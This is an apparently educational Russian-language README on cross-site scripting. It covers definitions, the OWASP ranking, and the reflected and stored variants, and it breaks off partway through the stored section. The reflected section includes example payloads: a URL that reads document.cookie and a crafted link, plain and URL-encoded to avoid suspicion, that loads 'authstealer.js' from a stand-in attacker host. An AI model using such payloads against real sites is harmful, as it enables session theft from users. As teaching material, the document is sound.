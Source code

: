 # **XSS уязвимость**

## **Описание уязвимости**
XSS (англ. Cross-Site Scripting — «межсайтовый скриптинг») — тип атаки на веб-системы, заключающийся во внедрении в выдаваемую веб-системой страницу вредоносного кода (который будет выполнен на компьютере пользователя при открытии им этой страницы) и взаимодействии этого кода с веб-сервером злоумышленника. Является разновидностью атаки «Внедрение кода».

Специфика подобных атак заключается в том, что вредоносный код может использовать авторизацию пользователя в веб-системе для получения к ней расширенного доступа или для получения авторизационных данных пользователя. Вредоносный код может быть вставлен в страницу как через уязвимость в веб-сервере, так и через уязвимость на компьютере пользователя.
XSS находится на третьем месте в рейтинге ключевых рисков Web-приложений, согласно OWASP 2021.

## **Теория**
Не существует единой стандартизированной классификации недостатков межсайтового скриптинга, но большинство экспертов различают по крайней мере две основные разновидности XSS: непостоянные(reflected) и постоянные(stored). Также выделяют DOM-based XSS.

### **Reflected XSS**
**Непостоянная (или отраженная) уязвимость межсайтового скриптинга** на сегодняшний день является самым основным типом веб-уязвимости. Эти дыры обнаруживаются, когда данные, предоставленные веб-клиентом, чаще всего в параметрах HTTP-запроса (например, отправка HTML-формы), немедленно используются серверные скрипты для анализа и отображения страницы результатов.

Отраженная атака обычно отправляется по электронной почте или на нейтральный веб-сайт. Приманка - это невинно выглядящий URL-адрес, указывающий на надежный сайт, но содержащий вектор XSS. Если доверенный сайт уязвим для XSS, нажатие на ссылку может привести к тому, что браузер жертвы запустит внедренный скрипт.

**Пример XSS**
```
http://vulnerable-website.com/search?q=<script>alert(document.cookie);</script>
```
**Пример созданной URL-ссылки для хищения информации**
```HTML
http://vulnerable-website.com/search?q=puppies<script>src="http://hackersite.com/authstealer.js"</script>
<!--(Пример закодированной ссылки для отведения подозрений-->
http://vulnerable-website.com/search?q=puppies%3Cscript%20src%3D%22http%3A%2F%2Fhackersite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E
```
### **Stored XSS**
**Хранимая уязвимость XSS** является более разрушительным вариантом ошибки межсайтового скриптинга: она возникает, когда данные, предоставленные злоумышленником, сохраняются сервером, а затем постоянно отображаются на "обычных" страницах, возвращаемых другим пользователям в ходе обычного просмотра, без надлежащего экранирования HTML. Классическим примером этого являются онлайн-доски объявлений, где пользователям разрешено размещать сообщения в формате HTML для чтения другими пользователями.

Постоянные XSS уязвимости могут быть более значительными, чем другие типы, потому что вредоносный скрипт злоумышленника отображается автоматически, без необходимости индивидуально нацеливать жертвы или заманивать их на сторонний веб-сайт. В частности, в случае сайтов социальных сетей, код будет дополнительно разработан для самораспространения между учетными записями, создавая тип клиентского червя.
